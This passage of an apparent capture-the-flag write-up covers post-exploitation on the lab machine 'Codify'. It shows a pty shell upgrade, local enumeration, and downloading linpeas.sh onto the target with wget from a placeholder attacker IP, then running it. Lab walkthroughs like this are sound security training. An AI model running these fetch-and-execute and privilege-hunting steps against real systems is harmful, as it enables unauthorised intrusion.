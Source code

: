 Huzzah, we have our initial foothold!

### Upgrading the shell
I like upgrading my shells via:
```sh
$ python3 -c "import pty; pty.spawn('/bin/bash')" # Target machine
# Hit Ctrl+Z to put the process in background
$ stty raw -echo ; fg # Sets the terminal to raw mode -> input is sent directly to the program without processing
```

## Step 4 - Looking for user.txt

### Enumeration
Navigating to `/home` and running `ls` reveals two users: joshua and svc. Navigating to Joshua's home folder is not possible due to insufficient permissions. This is clearly my next target, so I need to figure a way into Joshua's account.

```sh
$ whoami
svc

$ hostname
codify

$ sudo -l
[sudo] password for svc: # No idea about this one...

$ cat /etc/os-release
22.04.3 LTS (Jammy Jellyfish)

$ env
# A bunch of env variables

$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Nothing too interesting showed up, so I decided to run `linpeas.sh` on the target machine:
```sh
# Attacker's machine
$ cd [<path to linpeas>]
$ python3 -m http.server

# Target machine
$ cd /tmp
$ wget http://[<Attacker machine IP>]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

Again, nothing super obvious was found.
